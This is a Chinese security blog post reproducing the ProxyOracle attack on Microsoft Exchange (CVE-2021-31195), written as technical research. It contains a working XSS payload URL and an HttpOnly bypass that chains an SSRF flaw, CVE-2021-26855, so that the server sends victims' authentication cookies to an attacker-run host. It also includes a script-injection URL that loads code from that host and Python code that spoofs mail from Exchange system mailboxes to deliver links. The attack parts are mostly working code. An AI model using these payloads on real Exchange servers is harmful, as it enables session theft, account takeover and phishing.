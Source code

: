 ```yaml
---
layout: post
title: ProxyOracle利用分析1——CVE-2021-31195
---
```



## 0x00 前言
---

我和[Evi1cg](https://evi1cg.me/)一起复现了[ProxyOracle](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)攻击链，本文仅在技术研究的角度记录研究ProxyOracle中的细节，分析利用思路。

## 0x01 简介
---

本文将要介绍以下内容：

- XSS复现
- HttpOnly绕过
- XSS平台搭建
- 伪造邮件

## 0x02 XSS复现
---

测试环境:

- Exchange Server IP: 192.168.1.1

用户登录后访问如下链接：

```
https://192.168.1.1/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//
```

触发XSS，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-8-19/2-1.png)

但是这里无法显示我们想要的Cookie数据，具体名称如下：

- cadata
- cadataTTL
- cadataKey
- cadataIV
- cadataSig

查看以上Cookie的HttpOnly属性，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-8-19/2-2.png)

可以看到以上Cookie设置了HttpOnly属性，可用来防止XSS攻击，通过js脚本将无法读取到Cookie信息

## 0x03 HttpOnly绕过
---

为了能够读取受HttpOnly属性保护的Cookie信息，我们需要借助SSRF漏洞，控制Exchange服务器将Cookie信息发送至我们自己搭建的XSS平台

这里需要注意以下细节：

### 1.SSRF漏洞的选择

#### (1)CVE-2021-26855

能够访问外部XSS平台

能够使用ajax模拟用户发包触发SSRF漏洞

#### (2)CVE-2021-28480

能够访问外部XSS平台

无法使用ajax模拟用户发包触发SSRF漏洞(无法修改Cookie中的X-BackEndCookie)

#### (3)CVE-2021-34473

无法访问外部XSS平台

因此，最终的选择为CVE-2021-26855

### 2.XSS平台搭建

由于我们借助了SSRF漏洞，控制Exchange服务器将Cookie信息发送至XSS平台，导致我们最终想要的Cookie信息位于Request Headers中

而现有的XSS平台大都是通过POST请求的参数来传递数据

为了解决这个问题，这里可以选择我之前开源的XSS平台，地址如下：

https://github.com/3gstudent/pyXSSPlatform

只需要修改以下位置：

- 修改index.js，使用ajax模拟用户发包触发SSRF漏洞
- 修改pyXSSPlatform.py，将GET请求的Request Headers进行提取
- 使用合法的证书

index.js代码示例：

```
var xmlHttp = new XMLHttpRequest();
xmlhttp.open("GET", "https://192.168.1.1/owa/auth/x.js", false);
document.cookie = "X-AnonResource=true";
document.cookie = "X-AnonResource-Backend=OurXssServer.com/#~1";
xmlhttp.send();
```

### 3.XSS利用代码

控制用户访问XSS平台的代码示例：

```
https://192.168.1.1/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//
```

## 0x04 伪造邮件
---

### 1.伪造成Exchange的默认用户

在之前的文章《ProxyShell利用分析1——CVE-2021-34473》中提到：通过CVE-2021-34473，我们可以模拟成任意用户身份进行EWS调用操作

并且，Exchange中默认存在以下四个用户可供使用：

- SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
- SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
- SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}(Exchange 2016 CU8 and later)
- SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}(Exchange 2016 CU8 and later)

结合以上信息，我们可以模拟成Exchange的默认用户来发送邮件，对应名称如下：

- SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}:Microsoft Exchange
- SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}:Microsoft Exchange
- SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}(Exchange 2016 CU8 and later):E4E Encryption Store - Active
- SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}(Exchange 2016 CU8 and later):Microsoft Exchange


### 2.通过EWS发送超链接

格式参考：

https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/createitem-operation-email-message

但是我没有找到通过EWS发送超链接的格式

这里我是通过抓包的方式获得了正确的SOAP格式，方法可参考之前的文章[《渗透基础——通过Outlook Web Access(OWA)读取Exchange邮件的命令行实现》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E9%80%9A%E8%BF%87Outlook-Web-Access(OWA)%E8%AF%BB%E5%8F%96Exchange%E9%82%AE%E4%BB%B6%E7%9A%84%E5%91%BD%E4%BB%A4%E8%A1%8C%E5%AE%9E%E7%8E%B0)

需要注意以下部分：

- 使用CreateItem发送邮件
- SendOnly表示只发送邮件，不保存
- BodyType需要设置为HTML
- 正文内容需要注意XML的转义字符

Python示例代码如下：

```
def escape(_str):
    _str = _str.replace("&", "&amp;")
    _str = _str.replace("<", "&lt;")
    _str = _str.replace(">", "&gt;")
    _str = _str.replace("\"", "&quot;")
    return _str

linkData = "Click here"
linkURL = "https://test.com"
payload = "<html><head><meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\"><style type=\"text/css\" style=\"display:none;\"><!-- P {margin-top:0;margin-bottom:0;} --></style></head><body dir=\"ltr\"><div id=\"divtagdefaultwrapper\" style=\"font-size:12pt;color:#000000;font-family:Calibri,Helvetica,sans-serif;\" dir=\"ltr\"><p><a href=\"" + linkURL + "\" class=\"OWAAutoLink\">" + linkData + "</a></p></div></body></html>"
    
POST_BODY = '''<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:m="https://schemas.microsoft.com/exchange/services/2006/messages"
  xmlns:t="https://schemas.microsoft.com/exchange/services/2006/types">
  <soap:Body>
    <m:CreateItem MessageDisposition="SendOnly">
      <m:Items>
        <t:Message>
          <t:Subject>Test Subject</t:Subject>
          <t:Body BodyType="HTML">{payload}</t:Body>
          <t:ToRecipients>
            <t:Mailbox>
              <t:EmailAddress>{mailuserTo}</t:EmailAddress>
              </t:Mailbox>
          </t:ToRecipients>
        </t:Message>
      </m:Items>
    </m:CreateItem>
  </soap:Body>
</soap:Envelope>
'''

POST_BODY = POST_BODY.format(payload = escape(payload), mailuserTo = "test2@test.com")
```

## 0x05 小结
---

对于CVE-2021-31195，不仅可以用来获得用户的Cookie信息，同样可以使用其他XSS的利用方法，例如截取屏幕和模拟用户发包修改收件箱访问权限


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


